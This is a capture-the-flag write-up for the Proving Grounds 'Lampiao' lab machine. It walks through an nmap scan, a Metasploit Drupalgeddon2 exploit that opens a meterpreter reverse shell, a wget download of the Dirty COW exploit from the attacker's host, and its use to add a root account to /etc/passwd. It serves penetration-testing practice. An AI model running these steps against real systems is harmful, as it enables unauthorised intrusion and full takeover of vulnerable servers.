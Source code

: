 ```yaml
---
title: "Proving grounds Play: Lampiao"
layout: post
date: 2023-09-27 02:00
categories: writeup
---
```


Proving grounds Play - Lampiao CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46b199607d81693cae1fc7ffc366e310 (DSA)
|   2048 f3e888f22dd0b2540b9cad6133595593 (RSA)
|   256 ce632af7536e46e2ae81e3ffb716f452 (ECDSA)
|_  256 c655ca073765e306c1d65b77dc23dfcc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Lampi\xC3\xA3o
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
| http-robots.txt: 36 disallowed entries (15 shown)
```

## Web PORT: 1898

![img](/assets/images/CTF/Proving_Grounds/Lampiao/web.png)

```html
<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
```

http://192.168.172.48:1898/CHANGELOG.txt

The CMS version used in the web page is Drupal 7.54 which is vulnerable to [Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution](https://www.exploit-db.com/exploits/44449).

## Initial Foothold

```sh
msf6 exploit(multi/http/drupal_drupageddon) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 192.168.172.48
rhosts => 192.168.172.48
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport 1898
rport => 1898
sf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lhost 192.168.45.152
lhost => 192.168.45.152
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 4444
lport => 4444
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.45.152:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 192.168.172.48
[*] Meterpreter session 1 opened (192.168.45.152:4444 -> 192.168.172.48:50570) at 2023-09-26 21:56:05 -0400
```

## Privilege Escalation

```sh
ww-data@lampiao:/tmp$ uname -a
uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
www-data@lampiao:/tmp$ cat /etc/*release
cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
NAME="Ubuntu"
VERSION="14.04.5 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.5 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```

The machine is vulnerable to [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839).

```sh
ww-data@lampiao:/tmp$ wget http://192.168.45.152:80/dirty.c -O dirty.c #download exploit to attacking machine
wget http://192.168.45.152:80/dirty.c -O dirty.c
--2023-09-26 23:07:15--  http://192.168.45.152/dirty.c
Connecting to 192.168.45.152:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [text/x-csrc]
Saving to: 'dirty.c'

100%[======================================>] 5,006       --.-K/s   in 0.02s   

2023-09-26 23:07:15 (236 KB/s) - 'dirty.c' saved [5006/5006]

www-data@lampiao:/tmp$ ls
ls
dirty.c  suid3num.py  vmware-root
www-data@lampiao:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt #compile the exploit
gcc -pthread dirty.c -o dirty -lcrypt
www-data@lampiao:/tmp$ ls
ls
dirty  dirty.c	suid3num.py  vmware-root
www-data@lampiao:/tmp$ ./dirty #run the exploit
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password #set new password

Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash
```

Now use switch user or SSH to login to user `firefart:password` to obtain root.

```sh
naveenj@hackerspace:|22:15|~/pg-play/Lampiao/files$ ssh firefart@192.168.172.48
firefart@192.168.172.48's password: password

Last login: Wed Jul 22 14:23:39 2020
firefart@lampiao:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@lampiao:~# 
```

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).